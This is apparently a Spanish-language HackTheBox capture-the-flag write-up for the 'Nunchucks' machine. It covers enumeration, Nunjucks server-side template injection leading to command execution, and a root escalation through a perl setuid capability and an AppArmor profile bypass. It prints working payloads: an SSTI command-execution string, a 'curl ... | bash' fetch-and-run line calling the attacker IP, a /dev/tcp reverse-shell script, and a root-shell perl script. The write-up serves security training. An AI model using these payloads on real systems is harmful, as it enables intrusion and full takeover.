




# Nunchucks

`Nunchucks` es una máquina sencilla que explora una inyección de plantilla del lado del servidor (SSTI) basada en NodeJS que conduce a un error de AppArmor que ignora el perfil de AppArmor del binario mientras ejecuta scripts que incluyen el contenido de la aplicación perfilada.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Nunchucks**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.122 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 22:29 CET
Initiating SYN Stealth Scan at 22:29
Scanning 10.10.11.122 [65535 ports]
Discovered open port 22/tcp on 10.10.11.122
Discovered open port 80/tcp on 10.10.11.122
Discovered open port 443/tcp on 10.10.11.122
Completed SYN Stealth Scan at 22:29, 12.55s elapsed (65535 total ports)
Nmap scan report for 10.10.11.122
Host is up, received user-set (0.051s latency).
Scanned at 2025-02-16 22:29:35 CET for 13s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack ttl 63
80/tcp  open  http    syn-ack ttl 63
443/tcp open  https   syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.67 seconds
           Raw packets sent: 65535 (2.884MB) | Rcvd: 65542 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.122
	[*] Open ports: 22,80,443

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta unas páginas web de `Nginx` y el servicio de `SSH`.

```bash
❯ nmap -sCV -p22,80,443 10.10.11.122 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 22:31 CET
Nmap scan report for nunchucks.htb (10.10.11.122)
Host is up (0.065s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| tls-alpn: 
|_  http/1.1
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   104.88 ms 10.10.16.1
2   30.95 ms  nunchucks.htb (10.10.11.122)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.45 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

Añadiremos la siguiente entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep nunchucks
10.10.11.122 nunchucks.htb 
```

## Web Enumeration

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb https://nunchucks.htb
https://nunchucks.htb [200 OK] Bootstrap, Cookies[_csrf], Country[RESERVED][ZZ], Email[support@nunchucks.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.122], JQuery, Script, Title[Nunchucks - Landing Page], X-Powered-By[Express], nginx[1.18.0]
```

Accederemos a [https://nunchuks.htb](https://nunchuks.htb) y nos encontramos con la siguiente página web, en la cual en una enumeración básica, no logramos obtener resultado relevante.

<figure><figcaption></figcaption></figure>

Realizamos una enumeración de directorios y páginas web que pudiera tener la página web, nos encontramos con el siguiente resultado.

```bash
❯ feroxbuster -u https://nunchucks.htb/ -t 200 -C 500,502,404 -k
                                                                                                               
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://nunchucks.htb/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        3l        6w       45c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET       10l       16w      179c https://nunchucks.htb/assets => https://nunchucks.htb/assets/
200      GET      183l      662w     9172c https://nunchucks.htb/Login
200      GET      250l     1863w    19134c https://nunchucks.htb/privacy
200      GET      245l     1737w    17753c https://nunchucks.htb/terms
200      GET      187l      683w     9488c https://nunchucks.htb/signup
200      GET       12l       78w     4155c https://nunchucks.htb/assets/images/customer-logo-1.png
200      GET      125l      669w    53396c https://nunchucks.htb/assets/images/introduction.jpg
```

Disponemos en [https://nunchucks.htb/](https://nunchucks.htb/)signup una página de registro de usuarios. Al intentar registrarnos como un nuevo usuarios, se nos indicaba que no podíamos realizar dicha acción.

<figure><figcaption></figcaption></figure>

### Subdomain Enumeration

Realizamos una enumeración de subdominios, entre los cuales logramos encontrar un nuevo subdominio llamado `store.nunchucks.htb`.

```bash
❯ wfuzz --hh=30587 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.nunchucks.htb" https://nunchucks.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nunchucks.htb/
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                              
=====================================================================

000000194:   200        101 L    259 W      4028 Ch     "store" 
```

Añadiremos esta nueva entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep nunchucks
10.10.11.122 nunchucks.htb store.nunchucks.htbbas
```

Realizaremos una comprobación de las tecnologías que utiliza el sitio web.

```bash
❯ whatweb https://store.nunchucks.htb/
https://store.nunchucks.htb/ [200 OK] Bootstrap, Cookies[_csrf], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.122], JQuery[1.10.2], Script[text/javascript], Title[Nunchucks Homepage], X-Powered-By[Express], X-UA-Compatible[IE=edge], nginx[1.18.0]
```

Accedemos a [https://store.nunchucks.htb](https://store.nunchucks.htb) y nos encontramos con la siguiente página web.

<figure><figcaption></figcaption></figure>

Realizamos una enumeración de directorios y archivos a través de `feroxbuster` y no logramos obtener algún directorio o archivo interesante.

```bash
❯ feroxbuster -u https://store.nunchucks.htb/ -t 200 -C 500,502,404 -k
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ https://store.nunchucks.htb/
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        3l        6w       45c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET       10l       16w      179c https://store.nunchucks.htb/assets => https://store.nunchucks.htb/assets/
200      GET        7l       15w      245c https://store.nunchucks.htb/assets/css/fonts.css
200      GET       14l       30w      424c https://store.nunchucks.htb/assets/js/main.js
200      GET       20l       82w     6403c https://store.nunchucks.htb/assets/images/flags/GB.png
200      GET       16l       82w     6002c https://store.nunchucks.htb/assets/images/flags/US.png
200      GET     1566l     2676w    25180c https://store.nunchucks.htb/assets/css/font-awesome.css
```

## Initial Access

### Node.js SSTI (Server Side Template Injection)

Realizando diversas pruebas en la página web, el único campo que nos parece interesante es en el cual nos permite indicar nuestro correo electrónico y posteriormente en el output por parte del servidor se imprime el input introducido.

Con lo cual, nos abre la posibilidad de que quizás exista un `Template Engine` y podamos intentar realizar un `SSTI (Server Side Template Injection)`.

<figure><figcaption></figcaption></figure>

Revisaremos nuevamente las tecnologías de la página web, y comprobamos que utiliza `Node.js` como lenguaje de programación.

<figure><figcaption></figcaption></figure>

Intentamos realizar una inyección de `SSTI` básica, pero se nos indica que debemos introducir un correo válido.

<figure><figcaption></figcaption></figure>

Por lo tanto, para intentar eludir esta restricción, interceptaremos la solicitud con `BurpSuite`. En la solicitud, verificamos que el `input`  y `output` se encuentran en un formato `JSON`

<figure><figcaption></figcaption></figure>

Intentamos realizar la siguiente inyección básica de `SSTI` para comprobar si era vulnerable. En la respuesta por parte del servidor, comprobamos que se ha interpretado la operación y nos ha aparecido el resultado de `7*7`, con lo cual todo parece indicar que podemos realizar el `SSTI` correctamente.

```json
{{7*7}}
```

<figure><figcaption></figcaption></figure>

En el siguiente blog, se nos mencionan diversas técnicas  y payloads para identificar el tipo de `Template Engine` que nos enfrentamos.



A través del siguiente `polyglot payload`, intentaremos enumerar el tipo de `Template Engine`. En este caso, solamente pudimos comprobar que se nos mostraba errores `JSON`, con lo cual nos hace afirmar que detrás quizás esté `Node.js` como se nos indicaba en el `Wappalyzer`.

```bash
${{<%[%'"}}%\.
```

<figure><figcaption></figcaption></figure>

En caso de vulnerabilidad, se puede devolver un mensaje de error o el servidor puede generar una excepción. Esto se puede utilizar para identificar la vulnerabilidad y el motor de plantillas en uso.

* Para identificar la vulnerabilidad, se puede seguir la siguiente lista de tareas pendientes:
* Detectar dónde existe la inyección de plantillas Identificar el motor de plantillas y validar la vulnerabilidad.
* Seguir los manuales del motor de plantillas específico.
* Aprovechar la vulnerabilidad

Se puede utilizar la siguiente `Cheat Sheet` para identificar el motor de plantillas en uso:

<figure><figcaption></figcaption></figure>

### Code Execution via SSTI (Node.js Nunjucks)

Realizando una búsqueda sobre `Node.js SSTI`, nos encontramos con el siguiente blog en el cual mencionan la posibilidad de ejecutar comandos arbitrarios remotos a través de `SSTI Node.js Nunjucks`.

<figure><figcaption></figcaption></figure>



Realizando una búsqueda por Internet, nos encontramos con el siguiente repositorio de GitHub el cual mediante `SSTI` en `Node.js Nunjucks`, logra obtener un `RCE`.



Inyectaremos el siguiente comando para que se nos muestre el contenido del`/etc/passwd`. Al enviar la solicitud a través de `BurpSuite`, en la respuesta del servidor se verifica el contenido del archivo del servidor. Con lo cual, queda confirmada la existencia de poder ejecutar comandos arbitrarios a través del `SSTI Node.js`.

```javascript
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```

<figure><figcaption></figcaption></figure>

Por lo tanto, podemos intentar realizar la Reverse Shell para conectarnos al equipo de diferentes maneras. En nuestro caso, para no tener problemas con las `'`, decidimos verificar si el binario de `cURL` se encontraba disponible en el sistema objetivo.

A través de la siguiente inyección, se verificó que el binario `cURL` se encontraba instalado en el equipo.

```javascript
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('which curl')\")()}}
```

<figure><figcaption></figcaption></figure>

Por lo tanto, en nuestro equipo local crearemos un script sencillo en `Bash` para que se ejecute la Reverse Shell, este script lo compartiremos a través de un servidor web.

```bash
❯ cat shell.sh
#!/bin/bash

/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.3/443 0>&1'

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde otra terminal, nos pondremos en escucha con `nc` para recibir la conexión.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos la siguiente inyección `SSTI` para que realice un `cURL` hacía nuestro script de la Reverse Shell y lo ejecute a través de una `bash`.

```javascript
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl http://10.10.16.3/shell.sh|bash')\")()}}
```

<figure><figcaption></figcaption></figure>

Verificamos que finalmente logramos obtener el acceso correspondiente al sistema y visualizar la flag de **user.txt**.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.122] 37010
bash: cannot set terminal process group (993): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ cat /home/david/user.txt
d967f92377f2*********************
```

Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
david@nunchucks:/var/www/store.nunchucks$ script /dev/null -c bash
Script started, file is /dev/null
david@nunchucks:/var/www/store.nunchucks$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
david@nunchucks:/var/www/store.nunchucks$ export TERM=xterm
david@nunchucks:/var/www/store.nunchucks$ export SHELL=bash
david@nunchucks:/var/www/store.nunchucks$ stty rows 46 columns 230
```

## Privilege Escalation

### Attempting to perform Abusing Capabilities (perl) \[FAILED]

Revisaremos una comprobación de los grupos y de si disponemos de permisos de `sudoers`. En este caso, no disponemos de grupos especiales y tampoco podemos comprobar los privilegios `sudoers` debido que nos requiere proporcionar credenciales del usuario `david` el cual de momento no disponemos.

```bash
david@nunchucks:/var/www/store.nunchucks$ id
uid=1000(david) gid=1000(david) groups=1000(david)
david@nunchucks:/var/www/store.nunchucks$ sudo -l
[sudo] password for david: 
```

Por otro lado, revisamos si había algún binario inusual con privilegios de `SUID`, no logramos encontrar ninguno. Intentamos también verificar si disponíamos de alguna `capabilitie`, en el resultado obtenido, nos encontramos la capabilitie `/usr/bin/perl = cap_setuid+ep`, con la cual podríamos llegar a aprovecharnos para obtener acceso como `root`.

```bash
david@nunchucks:/var/www/store.nunchucks$ find / -perm -4000 2>/dev/null
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/at
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd

david@nunchucks:/var/www/store.nunchucks$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

A través dela herramienta de [searchbins](https://github.com/r1vs3c/searchbins), revisamos la manera de abusar de esta `capabilitie` que disponemos.

```bash
❯ searchbins -b perl -f capabilities

[+] Binary: perl

================================================================================
[*] Function: capabilities -> [https://gtfobins.github.io/gtfobins/perl/#capabilities]

	| ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Revisamos la ubicación del binario `perl`, accedemos a su directorio y ejecutamos la sintaxis para poder abusar de esta `capabilitie`, en el primer comando intentamos obtener una `Bash` como `root` pero no obtuvimos resultado ninguno.

Intentamos ejecutar el binario para obtener una _shell_ como _root_, pero no conseguimos una sesión completamente privilegiada. Al ejecutar `id`, vimos que el _UID_ era _root_, pero el _GID_ seguía siendo _david_, lo que impedía elevar nuestros privilegios.

```bash
david@nunchucks:/var/www/store.nunchucks$ which perl
/usr/bin/perl
david@nunchucks:/var/www/store.nunchucks$ cd /usr/bin/
david@nunchucks:/usr/bin$ ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/usr/bin$ ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "id";'
uid=0(root) gid=1000(david) groups=1000(david)
david@nunchucks:/usr/bin$ ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
root
```

### AppArmor Profile Bypass

Realizamos una enumeración con `linpeas.sh` y nos encontramos que `AppArmor` se encontraba habilitado en el sistema.


AppArmor es un módulo de seguridad del kernel de Linux que puedes utilizar para restringir las capacidades de los procesos que se ejecutan en el sistema operativo host. Cada proceso puede tener su propio perfil de seguridad.


<figure><figcaption></figcaption></figure>

Por otro lado, también volvemos a verificar la existencia de la `capabilitie` mencionada.

<figure><figcaption></figcaption></figure>

Al revisar la documentación sobre `AppArmor`, encontramos información sobre su funcionamiento y la ubicación donde se definen las políticas y restricciones de los binarios. Al analizar `/etc/apparmor.d/`, detectamos un perfil asociado a `/usr/bin/perl`, lo que podría limitar su uso en la explotación.



```bash
david@nunchucks:/etc/apparmor.d$ ls -l
total 56
drwxr-xr-x 4 root root 4096 Oct 28  2021 abstractions
drwxr-xr-x 2 root root 4096 Oct 28  2021 disable
drwxr-xr-x 2 root root 4096 Oct 28  2021 force-complain
drwxr-xr-x 2 root root 4096 Oct 28  2021 local
-rw-r--r-- 1 root root 1313 May 19  2020 lsb_release
-rw-r--r-- 1 root root 1108 May 19  2020 nvidia_modprobe
-rw-r--r-- 1 root root 3222 Mar 11  2020 sbin.dhclient
drwxr-xr-x 5 root root 4096 Oct 28  2021 tunables
-rw-r--r-- 1 root root 3202 Feb 25  2020 usr.bin.man
-rw-r--r-- 1 root root  442 Sep 26  2021 usr.bin.perl
-rw-r--r-- 1 root root  672 Feb 19  2020 usr.sbin.ippusbxd
-rw-r--r-- 1 root root 2006 Jul 22  2021 usr.sbin.mysqld
-rw-r--r-- 1 root root 1575 Feb 11  2020 usr.sbin.rsyslogd
-rw-r--r-- 1 root root 1385 Dec  7  2019 usr.sbin.tcpdump
```

Al revisar el perfil de `AppArmor` en `/etc/apparmor.d/usr.bin.perl`, observamos que `/usr/bin/perl` tiene la capacidad `setuid`, lo que le permite cambiar el _UID_ del proceso. Sin embargo, existen restricciones clave que limitan su alcance:

* Se deniega el acceso de escritura y ejecución a `/root/*` y `/etc/shadow`.
* No se permite la lectura de `/etc/nsswitch.conf`.
* Se permite la ejecución controlada de algunos binarios como `/usr/bin/id`, `/usr/bin/ls`, `/usr/bin/cat` y `/usr/bin/whoami`.
* Se restringe el acceso de `/usr/bin/perl` a ciertos archivos críticos, pero se permite la lectura en `/home/` y `/home/david/`.

Estas reglas limitan el impacto de la _capability_ `setuid`, aunque aún es posible evaluar si existen formas de evasión para escalar privilegios.

```bash
david@nunchucks:/etc/apparmor.d$ cat usr.bin.perl
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>

/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,
}
```

Investigando en Internet, encontramos un blog donde explicaban cómo realizar un bypass de `AppArmor` usando un script en `Perl`. Siguiendo este método, creamos un script en `/tmp/gzzcoo.pl`, le asignamos permisos de ejecución y lo ejecutamos.

Inicialmente, al ejecutar `perl gzzcoo.pl`, el sistema devolvió un error de _Permission denied_. Sin embargo, al ejecutarlo directamente (`./gzzcoo.pl`), logramos obtener una shell como `root` y acceder a la flag **root.txt**.

Este comportamiento indica que `AppArmor` restringe la ejecución de `Perl` directamente, pero al ejecutar el script como binario, logramos evadir la restricción y escalar privilegios a `root`.



```bash
david@nunchucks:/tmp$ cat gzzcoo.pl
#!/usr/bin/perl

use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX;;setuid(0);

exec "/bin/bash";
david@nunchucks:/tmp$ chmod +x gzzcoo.pl 
david@nunchucks:/tmp$ perl gzzcoo.pl 
Can't open perl script "gzzcoo.pl": Permission denied
david@nunchucks:/tmp$ ./gzzcoo.pl 
root@nunchucks:/tmp# whoami
root
root@nunchucks:/tmp# cat /root/root.txt 
d67dd7dd335***********************
```
